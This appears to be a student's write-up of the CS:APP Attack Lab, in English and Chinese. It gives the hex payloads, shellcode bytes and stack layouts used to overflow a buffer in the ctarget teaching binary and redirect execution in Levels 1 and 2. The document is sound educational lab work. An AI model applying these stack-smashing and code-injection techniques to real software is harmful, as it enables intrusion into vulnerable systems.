

[toc]

```shell
Usage: [-hq] ./ctarget -i <infile> 
  -h          Print help information
  -q          Don't submit result to server
  -i <infile> Input file
```
```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);//Gets terminate by '/n' or EOF
    return 1;
}
```
## Level 1
```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
Task:get _ctarget_ execute the code for _touch1_ when _getbuf_ execute its return statement.
```assembly
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
```
The starting address of _touch1_
```assembly
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
```
Problems encountered and solutions:
You cannot directly write "00000000004017c0" after 40 char as it's not an address but a seris of ascii code such as '0' is 48!!!
It's not easy to address this problem as the range of ascii is 0 ~ 127.
So if you want to input 48(0x30) into the stdin,you can directly type '0'(a char).However,if you want to input 192(0xc0),there is no corresponding letter.
> In fact 192 has corresponding letter, you can use Mac's calculator to search.But not all letters can easily found on keyboard.

We can use _Hex2raw_ to convert.
_Hex2raw_ 可以将一个byte(用16进制表示)转化成能直接输入内存的形式。
比如讲 30 转换成 '0'.

So the solution of level1 is
`./hex2raw < level1.txt > level1_raw.txt`
`./ctarget -qi level1_raw.txt`

```
/* level1.txt */ 
33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33
C0 17 40
```
The dest address is 0x4017c0 and the original address is 0x4019a4 so I begin to wonder if I can only type c0 17 at the end of file. It fails because __Gets add an '\0' at the end of input string__. So the ($rsp+0x28) would become 0x0017c0.
## Level 2
```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } 
  else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
ret 从栈中弹出一个地址，并跳转到这个地址。
查阅知进入getbuf后，`%rsp-0x28`后的地址为`0x5561dc78`
我的cookie是：`0x59b997fa`
exploit code:
```assembly
movq $0x59b997fa,%rdi
ret
```
```
0: 48 c7 c7 fa 97 b9 59   movq $0x59b997fa,%rdi
7: c3                 retq
```
栈结构：
-exploit code
-address of touch2
%rsp => -address of exploit code (`0x5561dc78 + 0x28 + 0x8 + 0x8 = 0x5561dcb0`)

touch2
`0x00000000004017ec <+0>:	sub    $0x8,%rsp`

problems encountered and solutions:
movq只能传送32位补码数字的立即数作为源操作数。然后将这个值符号拓展到64位。
而我的cookie是0x59b997fa，显然
```
0: bf fa 97 b9 59   movl $0x59b997fa,%edi
5: c3            retq
```
```
0: bf fa 97 b9 59  movl $0x59b997fa,%edi$
5: 48 83 ec 18   sub $0x18,%rsp
9: c3   retq
```
以上对level2的尝试均告失败:sob::sob:，报错均为`segmatation fault`。
因为我将攻击代码写到了该函数可用空间的外面。应该将代码写到`%rsp ~ %rsp-0x28`的范围内。

正确栈结构：
address of touch2(0x4017ec)
%rsp=> exploit code address(0x5561dc78)
...some char...
0x5561dc78:bf fa 97 b9 59 c3
> 也可以使用这样的攻击代码
> ```assembly
> movl $cookie,%rdi
> pushq $0x4017ec
> ret
> ```
> 这样就不用自己再栈中写入touch2的开始地址了。